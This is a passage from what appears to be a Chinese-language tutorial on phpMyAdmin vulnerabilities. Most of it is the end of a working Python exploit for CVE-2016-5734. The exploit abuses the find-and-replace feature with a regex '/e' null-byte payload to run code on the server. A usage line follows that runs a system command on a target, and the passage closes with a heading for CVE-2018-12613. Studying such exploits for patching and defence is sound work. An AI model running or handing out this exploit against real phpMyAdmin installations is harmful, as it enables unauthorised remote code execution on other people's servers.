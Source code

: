 ```python
        }
        resp = s.post(url_to_pma + "/import.php", data, cookies=requests.utils.dict_from_cookiejar(s.cookies))
        if resp.status_code == 200:
            if "success" in resp.json():
                if resp.json()["success"] is False:
                    first = resp.json()["error"][resp.json()["error"].find("<code>")+6:]
                    error = first[:first.find("</code>")]
                    if "already exists" in error:
                        print(error)
                    else:
                        print("ERROR: " + error)
                        sys.exit(1)
    # build exploit
    exploit = {
        "db": db,
        "table": table,
        "token": token,
        "goto": "sql.php",
        "find": "0/e\0",
        "replaceWith": payload,
        "columnIndex": "0",
        "useRegex": "on",
        "submit": "Go",
        "ajax_request": "true"
    }
    resp = s.post(
        url_to_pma + "/tbl_find_replace.php", exploit, cookies=requests.utils.dict_from_cookiejar(s.cookies)
    )
    if resp.status_code == 200:
        result = resp.json()["message"][resp.json()["message"].find("</a>")+8:]
        if len(result):
            print("result: " + result)
            sys.exit(0)
        print(
            "Exploit failed!\n"
            "Try to manually set exploit parameters like --table, --database and --token.\n"
            "Remember that servers with PHP version greater than 5.4.6"
            " is not exploitable, because of warning about null byte in regexp"
        )
        sys.exit(1)
```



利用如下：

```
cve-2016-5734.py -u root --pwd="" http://localhost/pma -c "system('ls -lua');"
```

### 3.4 CVE-2018-12613：后台文件包含

